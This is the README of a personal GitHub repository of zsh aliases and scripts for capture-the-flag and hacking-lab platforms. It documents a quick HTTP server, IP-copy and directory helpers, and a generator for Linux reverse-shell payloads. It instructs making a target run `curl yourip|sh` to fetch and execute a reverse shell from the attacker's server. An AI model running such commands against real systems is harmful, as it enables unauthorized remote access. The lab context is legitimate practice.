 # Stuff for CTFs, HTB, THM etc
Contains aliases and scripts I often use. Just clone this repo **in your home folder** and run `echo "source ~/zsh-aliases/aliases.zsh" >> ~/.zshrc`. After restarting zsh you should be able to use all aliases and scripts. Only tested on Kali Linux, you might need to install additional dependencies on other distros. 
> #### Disclaimer
> Most of those aliases probably suck, feel free to submit a pull request reducing the pepeganess. For me the fact that it works is enough to use them for now :D
## Misc
### > www

Starts a HTTP server on port 80 in the current directory. Also prints a list of the IP address associated with each NIC, shows the current directory path and lists the files. 
Example: 
```
┌──(jazz㉿kali)-[/tmp/www]
└─$ www
[eth0] 192.168.172.128
[/tmp/www]
linpeas.sh  pspy64
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
> #### Notes
> - Sudo is used to ensure being able to listen on port 80

### > tun0

Copies the IP addres of the tun0 interface to the clipboard. 
Example: 
```
┌──(jazz㉿kali)-[~/jazz]
└─$ tun0 
```
Clipboard contents after:
```
10.10.14.41
```

### > mkdir_cd
Often when making a directory I want to directly `cd` into it after. This does exactly that.  
Example: 
```
┌──(jazz㉿kali)-[~/jazz]
└─$ mkdir_cd pepega

┌──(jazz㉿kali)-[~/jazz/pepega]
└─$ 
```

## Reverse shells
### > gen_lin_rev $ip $port 
Based on [RSaaS](https://github.com/lukechilds/reverse-shell). Creates a file called `index.html` in the current directory. This file contains multiple reverse shell payloads that will be attempted in sequence until one works. Can be used with `www` to make spawning a reverse shell after gaining RCE extremely easy and fast. Just make the target execute `curl yourip|sh` and it will retrieve the reverse shell payload from your webserver and -hopefully- connect back to your listener. 
Example: 
```
┌──(jazz㉿kali)-[~]
└─$ gen_lin_rev 127.0.0.1 1337
[+] Wrote Linux reverse shells to /home/jazz/index.html
```